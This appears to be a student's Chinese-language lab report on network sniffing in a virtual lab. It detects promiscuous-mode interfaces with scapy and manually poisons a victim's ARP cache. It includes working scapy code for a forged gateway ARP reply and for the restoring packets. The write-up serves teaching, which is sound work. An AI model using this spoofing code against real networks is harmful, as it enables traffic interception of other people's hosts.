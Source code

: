 # 网络监听实验

## 1. 网络拓扑

![](img/topology.png)

- 攻击者主机
  - 08:00:27:c7:95:fa / eth1
  - 172.16.111.124 / 24

- 受害者主机
  - 08:00:27:8d:8f:23 / eth0
  - 172.16.111.134 / 24

- 网关
  - 08:00:27:9e:10:fe / enp0s9
  - 172.16.111.1 / 24

## 2. 实验过程

### 2.1 实验一: 检测局域网中的异常终端

在受害者主机上检查网卡的「混杂模式」是否启用

```bash
ip link show eth0
```

![](img/check_promiscuous.png)

在攻击者主机上开启 scapy
```bash
sudo scapy
```

在 scapy 的交互式终端输入以下代码回车执行
```python
pkt = promiscping("172.16.111.134")
```

可以看到没有终端响应了发出的数据包

![](img/before_promiscuous_ping.png)

回到受害者主机上，手动开启该网卡的「混杂模式」

```bash
sudo ip link set eth0 promisc on
```
此时会发现输出结果里多出来了 PROMISC 参数

```bash
ip link show eth0
```

![](img/promisc_on.png)

回到攻击者主机上的 scapy 交互式终端继续执行命令

![](img/after_promisc_ping.png)

可以看到这次有了回应

回到受害者主机上，关闭该网卡

```bash
sudo ip link set eth0 promisc off
```

### 2.2 实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 scapy 交互式终端完成

获取当前局域网的网关 MAC 地址，构造一个 ARP 请求

```python
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
```
查看构造好的 ARP 请求报文详情

```python
arpbroadcast.show()
```

![](img/arp_show.png)

发送这个 ARP 广播请求

```python
recved = srp(arpbroadcast, timeout=2)
```
网关 MAC 地址如下

![](img/gateway_mac_address.png)

ARP 请求到的网关 MAC 地址与在网关本机上使用的 `ip a` 查看到的地址一致

在攻击前受害这主机上使用 `ip neigh` 查看 ARP 缓存

![](img/before_attack_arp_cache.png)

伪造网关的 ARP 响应包，准备发送给受害者主机 172.16.111.134，ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址，此处课件里似乎有一个 typo，需要在 ARP 数据包前在加上以太网帧头

```python
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.134", hwdst="08:00:27:c7:95:fa")
```

构造好后使用 `sendp(arpspoofed)` 发送伪造的 ARP 响应数据包到受害者主机

再次在受害者主机上使用 `ip neigh` 可以看到 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

![](img/after_attack_arp_cache.png)

回到攻击者主机上的 scapy 交互式终端继续执行命令，恢复受害者主机的 ARP 缓存记录，伪装网关给受害者发送 ARP 响应

```python
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:9e:10:fe", pdst="172.16.111.134", hwdst="08:00:27:8d:8f:23")
sendp(restorepkt1, count=100, inter=0.2)
```

![](img/restore.png)

查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录

![](img/check_restore.png)

## 3. 实验问题

在进行实验二的时候，ARP 响应包未能发送出去，使用 wireshark 抓包后发现发送出了一堆未构造好的数据包

![](img/error_packet.png)

排查后发现是在 scapy 里构造的 ARP 响应包未封装成以太网帧

## 4. 参考资料

[教材实验说明](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)

